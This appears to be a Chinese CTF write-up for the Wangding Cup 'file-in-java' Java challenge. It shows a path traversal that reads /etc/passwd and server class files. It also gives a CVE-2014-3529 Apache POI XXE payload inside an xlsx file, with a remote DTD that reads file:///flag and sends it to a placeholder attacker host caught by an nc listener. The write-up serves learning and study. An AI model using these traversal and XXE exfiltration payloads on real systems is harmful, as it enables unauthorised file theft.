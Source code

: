 ```yaml
---
layout:     post             
title:      Flag{网鼎杯之java代码审计入门} - file-in-java
date:       2023-07-31           
author:     sule01u                  
head-img:   img/unix-linux.jpg
catalog: true                      
tags:      
   - ctf
---
```


# Flag{网鼎杯之java代码审计入门}

### 一、赛题截图

![image-20230730181311006](https://p.ipic.vip/5pzc0q.png)

### 二、接口测试

1. 我们先上传文件抓包，发送到repeter

   ![image-20230730181727635](https://p.ipic.vip/c7sbde.png)

   响应如下

   ![截屏2023-07-30 18.27.06](https://p.ipic.vip/j85vbz.png)

2. 我们使用下载接口去下载一个不存在的文件，回显“资源被删除”![image-20230730182626919](https://p.ipic.vip/xdifjt.png)

		- 说明系统可能去查找了这个文件，那我们能不能去下载/etc/passwd文件，但是还不知道相对路径是啥

### 三、任意文件读取漏洞验证

  - 那我们去测试一下下载文件夹

    ![image-20230731013406841](https://p.ipic.vip/bsem8n.png)

- 我们根据路径可以推测到/etc/passwd文件路径

  ```
  1. 上传文件的路径为
  /usr/local/tomcat/webapps/file_in_java/WEB-INF/upload/0/10/上传文件名
  
  2. 那/etc目录是跟/usr一层级的,上图有九层目录，应该回退九层
  /usr/local/tomcat/webapps/file_in_java/WEB-INF/upload/0/10/../../../../../../../../../etc/passwd
  
  3. 则我们下载文件的参数应该为
  ../../../../../../../../../etc/passwd
  ```

- 根据上面推理构造请求，成功获取/etc/passwd文件内容，yeah

  ![image-20230730184024947](https://p.ipic.vip/7zqvoh.png)

3. 拿到了/etc/passwd的文件内容有什么用，怎么才能getshell啊

   > 通过上面的一些测试，我们可以知道任意文件下载的漏洞存在该系统, 上传shell也无法执行
   >
   > 那我们只能看看能不能拿到源码审计看看了

- 通过暴露的上传文件存储的路径得知web服务器为tomcat

  `/usr/local/tomcat/webapps/file_in_java/WEB-INF/upload/0/10/`

- 前置知识

  Tomcat的web.xml是一个XML文件，**用于配置Web应用程序的部署信息和其他相关配置**。 它通常位于Web应用程序的WEB-INF目录下。 web.xml文件中包含了大量的配置信息，其中最重要的是Web应用程序的servlet、过滤器和监听器等组件的配置，是tomcat的核心配置文件。

- 读取web.xml文件，可以看到有三个接口类

  ![image-20230730193751174](https://p.ipic.vip/hqqsrw.png)

- 拿到接口class文件,根据tomca结构，我们知道class文件都在WEB-INF目录下

  构造路径`../../../../../../../../../../usr/local/tomcat/webapps/file_in_java/WEB-INF/classes/具体类路径`,成功获取文件内容

  ![image-20230730195933666](https://p.ipic.vip/8dnwpl.png)

- 浏览器通过下载三个类文件,如下图所示

  ![image-20230730200123970](https://p.ipic.vip/ca1jp9.png)

### 四、代码审计

> idea打开这几个class文件

- 查找flag关键词，文件名只要包含flag字符就会被ban

  ![image-20230730201346435](https://p.ipic.vip/2id3uz.png)

- 看看其他文件有没有能够下手的地方

  - ListFileServlet.class文件，只是返回保存的文件名作用，应该是通过上传接口完成之后调用的

    ![image-20230730201850058](https://p.ipic.vip/tokr5q.png)

  - 仅剩UploadServlet接口了，发现可疑的一段代码，里面提到了xlsx文件格式，好像做了不一样的处理

    ![image-20230730202234209](https://p.ipic.vip/p2wjah.png)我们让chatgpt给我们解释一下代码啥意思啊！

    > 首先说一句chatgpt真香啊
    >
    > 关注图片标红部分，说明我们要通过一个excel-xx.xlsx文件利用apache poi库搞事情

    ![image-20230730202533041](https://p.ipic.vip/pnou04.png)

### 五、Apache POI库漏洞利用

> Apache [POI](https://so.csdn.net/so/search?q=POI&spm=1001.2101.3001.7020) 简介是用Java编写的免费开源的跨平台的 Java API，Apache POI提供API给Java程式对Microsoft Office（Excel、WORD、PowerPoint、Visio等）格式档案读和写的功能

- 即然用到了POI库，那我们看看这个库是否有漏洞存在！代码中给出的POI库版本为3.10，是否有漏洞，google一下你就知道

  ```
  CVE-2014-3529       apache poi 在3.10.1之前存在XXE漏洞
  ```

- 复现CVE-2014-3529

  - 新建一个excel文件并解压（linux unzip命令即可解压 ‘.xlsx’ 文件）

    ```shell
    mkdir tmp_excel       //新建一个目录存放解压后的文件目录
    touch 1.xlsx           //新建一个excel文件
    unzip 1.xlsx  -d tmp_excel      //解压到指定目录
    cd tmp_excel                    //进入目录
    ls                              //查看解压后的文件
    ```

    解压后的效果如下图所示：

    ![截屏2023-07-30 21.36.45](https://p.ipic.vip/dglghv.png)

  - 在[Content_Types].xml文件中添加payload，(在第一句和第二句中间添加下面给出的payload)

  > **payload解释**
  >
  > 代码中的实体 `remote` 定义了一个外部实体，其系统标识符（System Identifier）为 "http://your-remote-ip/file.dtd"。然后，通过 `%remote;` 引用了这个实体，将其包含到当前XML文档中。然后通过该外部实体 `%int;` 和 `%send;` 执行一些操作

  ```xml-dtd
   <!DOCTYPE convert [
   <!ENTITY % remote SYSTEM "http://you-remote-ip/file.dtd">
   %remote;%int;%send;
   ]>
  ```

  效果如图所示

  ![截屏2023-07-30 21.23.33](https://p.ipic.vip/8mebez.png)

  - 打包回xlsx文件,根据前面的代码分析，文件名得为excel-x.xlsx

    ```
    zip excel-1.xlsx ./*
    ```

  - 去我们的远程服务器编辑一个file.dtd

    > payload解释
    >
    > 1. `%file` 定义了一个实体，通过 `file:///flag` 指定为一个文件路径。读取本地文件系统上的 `flag` 文件。
    > 2. `%int` 定义了另一个实体，通过 `http://your-ip:port?popko=%file;` 将读取到的文件内容发送给指定的IP地址和端口，我们通过nc在该ip所在服务器上监听这里指定的端口。
    >
    > 3. 目的是读取 `flag` 文件，并将其内容发送到指定的服务器上。

    ```dtd
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://your-ip:port?popko=%file;'>">
    ```

    远程服务器80端口启动http服务，使通过http://your-remote-ip/file.dtd能访问到file.dtd资源

  - nc监听端口，准备接受flag文件内容

    ```
    nc -lvvnp port        //port为你file.dtd里指定的端口
    ```

- 上传xlsx文件测试

  ![image-20230731013600470](https://p.ipic.vip/mcdzk7.png)

  http服务成功接收到file.dtd的请求

  ![image-20230730220550321](https://p.ipic.vip/6xgu9h.png)

  nc成功收到flag文件的内容

  ![image-20230730220348251](https://p.ipic.vip/hnmcmm.png)

### 六、总结

- 任意文件下载(读取)
- Apache POI XXE

> 脚踏实地的每天进步一点点，不跟别人相比，只超越自己就够了。